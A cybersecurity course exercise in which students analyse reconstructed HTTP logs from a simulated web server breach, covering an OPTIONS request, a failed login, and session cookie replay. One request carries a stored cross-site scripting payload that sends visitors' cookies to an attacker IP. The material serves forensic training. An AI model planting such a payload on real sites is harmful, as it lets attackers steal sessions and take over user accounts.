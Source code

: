 ## Activity File: HTTP Requests and Responses

In this activity, you will be playing the role of a web app security engineer.

- There was a recent breach in one of your company's HTTP servers. Before the server went down, a suspicious IP address sent it a rapid sequence of requests and responses.
- The administrators of the web server attempted to recover and reconstruct much of the client-server HTTP request and response traffic.
- You are tasked with investigating the remaining HTTP logs in order to figure out what happened during the attack on the web server.

Use the [HTTP Reference Sheet](./HTTP_Reference.md) while working on this activity. 

:books: Use the following URL to learn about how web-based cross-site scripting attacks are used to steal cookies: [Geeks for Geeks: Cookie Tracking and Stealing Using Cross-Site Scripting Tracking](https://www.geeksforgeeks.org/cookie-tracking-stealing-using-cross-site-scripting/). 

- The information will be useful for answering the upcoming questions. Search the internet for "cross-site scripting cookie stealing" if you still need more resources.

### Instructions

The partially reconstructed HTTP requests and responses below were, at some point, exchanged with the suspicious IP address. A lot of requests and responses are missing, so we can only partially understand the attack. 

Review the partially reconstructed HTTP requests and responses. Answer the questions to figure out what happened during the breach on your company's web server.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.

   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

   - **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

   - **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

2. The system admins reported some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

   - **Questions:** 
      - What status code was returned in this response?
      - According to the response body, what kind of method was used to generate this HTTP response?
     - What sort of information was input to this HTTP request?

   - **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   - **Questions:** 
      - What type of method was used in the request?
      - What file name was uploaded to the site, according to the request body?

   - **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      - How did the server respond?

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   - **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request?

   - **Analysis:** Is there anything interesting about the URL requested?

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
